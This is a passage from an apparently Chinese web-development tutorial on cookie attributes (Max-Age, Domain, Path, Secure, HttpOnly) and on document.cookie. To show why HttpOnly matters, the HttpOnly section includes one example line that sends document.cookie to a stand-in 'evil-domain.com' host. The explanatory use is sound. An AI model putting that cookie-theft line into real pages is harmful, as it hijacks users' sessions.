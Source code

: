 `Max-Age` 属性指定从现在开始 Cookie 存在的秒数，比如60 * 60 * 24 * 365（即一年）。过了这个时间以后，浏览器就不再保留这个 Cookie。

::: tip
如果同时指定了 `Expires` 和 `Max-Age` ，那么 `Max-Age` 的值将优先生效。
:::

::: tip
如果 `Set-Cookie` 字段没有指定 `Expires` 或 `Max-Age` 属性，那么这个 Cookie 就是 Session Cookie，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 Cookie。
:::

### Domain

`Domain` 属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 Cookie。

如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 Cookie。如果指定了domain属性，那么子域名也会附带这个 Cookie。如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 Cookie。

### Path

`Path` 属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。

只要浏览器发现，Path属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。

比如，`PATH` 属性是 `/` ，那么请求 `/docs` 路径也会包含该 Cookie。当然，前提是域名必须一致。

### Secure

Secure属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。

另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的Secure属性。

该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。

### HttpOnly 

`HttpOnly` 属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是 `Document.cookie` 属性、`XMLHttpRequest` 对象和 Request API 都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。

```html
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的 `HttpOnly` 属性，上面代码就不会读到该 Cookie。

## document.cookie

`document.cookie` 属性用于读写当前网页的 Cookie。

读取的时候，它会返回当前网页的所有 Cookie，前提是该 Cookie 不能有 `HTTPOnly` 属性。

```js
document.cookie // "foo=bar;baz=bar"
```

上面代码从 `document.cookie` 一次性读出两个 Cookie，它们之间使用分号分隔。必须手动还原，才能取出每一个 Cookie 的值。

```js
var cookies = document.cookie.split(';');

for (var i = 0; i < cookies.length; i++) {
  console.log(cookies[i]);
}
// foo=bar
// baz=bar
```
